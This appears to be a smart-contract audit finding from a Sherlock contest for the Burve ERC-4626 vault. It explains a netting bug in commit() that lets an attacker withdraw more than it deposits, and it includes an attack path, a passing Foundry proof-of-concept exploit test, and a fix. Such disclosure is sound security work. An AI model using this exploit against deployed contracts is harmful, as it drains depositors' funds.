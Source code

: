 Jovial Blonde Bird

High

# Attacker could steal underlying assets from ERC-4626 vault depositors with commit function

### Summary

The incorrect net-off calculation in E4626.sol::commit() will cause a complete loss of funds for vault depositors, as an attacker will withdraw more assets than they deposit in a single batch without paying the difference.

### Root Cause

https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/vertex/E4626.sol#L62

> In [`[src/multi/vertex/E4626.sol:62-78](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/vertex/E4626.sol#L71)`](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/vertex/E4626.sol#L71) the code zeroes `assetsToDeposit` **before** subtracting it from `assetsToWithdraw`.
>
> ```solidity
> } else if (assetsToWithdraw > assetsToDeposit) {
> assetsToDeposit = 0;                    // ← sets to 0 first
> assetsToWithdraw -= assetsToDeposit;    // ← no longer subtracts anything
> }
> ```

As a result, when `assetsToWithdraw > assetsToDeposit`, the contract never deposits the promised amount but still withdraws the full requested amount from the underlying ERC-4626 vault.

### Internal Pre-conditions

1. **Attacker** can call `deposit(cid, amount)` and `withdraw(cid, amount)` for the same `cid` before `commit()` is executed.
2. `assetsToWithdraw` must be **strictly greater** than `assetsToDeposit` in that batch.

### External Pre-conditions

The underlying ERC-4626 vault holds sufficient liquid assets to satisfy the withdrawal.

### Attack Path

1. Attacker calls `deposit(cid, x)` (small amount, e.g. `1e17`).
2. Immediately afterwards, in the same transaction, attacker calls `withdraw(cid, y)` with `y > x` (e.g. `5e17`).
3. Attacker (or a higher-level contract) calls `commit()`.
4. Inside `commit()` the bugged branch executes:

    * `assetsToDeposit` is set to 0 ⇒ **no deposit made**.
    * `assetsToWithdraw` remains `y` ⇒ **full withdrawal executed**.
5. Transaction completes.

    * Attacker receives `y` tokens.
    * Attacker’s “deposit” of `x` tokens never reached the vault but they still retain the new shares credited during the earlier `deposit()` call.

### Impact

Vault depositors suffer an approximate loss of y tokens per exploit, while the attacker gains y – x tokens net (effectively the entire amount they claimed to deposit). Repeating the attack drains the vault until its liquidity is exhausted, leaving remaining users unable to withdraw (DoS) and with their shares permanently devalued.

### PoC

add test in test/multi/E4626.t.sol

```sol
function testNettingExploit() public {
    // -----------------------------------  Preparation  -----------------------------------
    ClosureId cid = ClosureId.wrap(1);
    uint256 initialDeposit = 1e18;  // Make an initial normal deposit to obtain shares
    {
        VaultTemp memory tmp;
        vault.fetch(tmp);
        vault.deposit(tmp, cid, initialDeposit);
        vault.commit(tmp);
    }

    // Record the baseline account balance and the vault’s total assets
    uint256 balBefore    = token.balanceOf(address(this));
    uint256 assetsBefore = e4626.totalAssets();  // MockERC4626 conforms to ERC-4626

    // -----------------------------------  Exploitation  -----------------------------------
    uint256 fakeDeposit  = 1e17;  // Attacker claims to deposit this amount
    uint256 realWithdraw = 5e17;  // And withdraws a larger amount (> fakeDeposit) in the same batch

    VaultTemp memory temp;
    vault.fetch(temp);
    vault.deposit(temp, cid, fakeDeposit);   // Triggers the flawed net-off branch
    vault.withdraw(temp, cid, realWithdraw); // assetsToWithdraw > assetsToDeposit
    vault.commit(temp);                      // Executes the buggy logic

    // -----------------------------------  Assertions  -----------------------------------
    uint256 balAfter = token.balanceOf(address(this));
    uint256 profit   = balAfter - balBefore;
    assertEq(
        profit,
        realWithdraw,
        "Net gain equals the full withdrawal; fakeDeposit was not deducted"
    );

    // The underlying vault’s total assets should decrease only by the withdrawal,
    // with no increase for fakeDeposit
    uint256 assetsAfter = e4626.totalAssets();
    assertEq(
        assetsAfter,
        assetsBefore - realWithdraw,
        "Underlying vault lost the withdrawal amount and received no fakeDeposit"
    );
}
```

Output:

Ran 1 test for test/multi/E4626.t.sol:E4626Test
[PASS] testNettingExploit() (gas: 208398)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.70ms (1.53ms CPU time)

Ran 1 test suite in 86.66ms (5.70ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)

### Mitigation

1. **Fix the netting logic** in `commit()`:

    ```solidity
    } else if (assetsToWithdraw > assetsToDeposit) {
        assetsToWithdraw -= assetsToDeposit;   // subtract first
        assetsToDeposit  = 0;
    }
    ```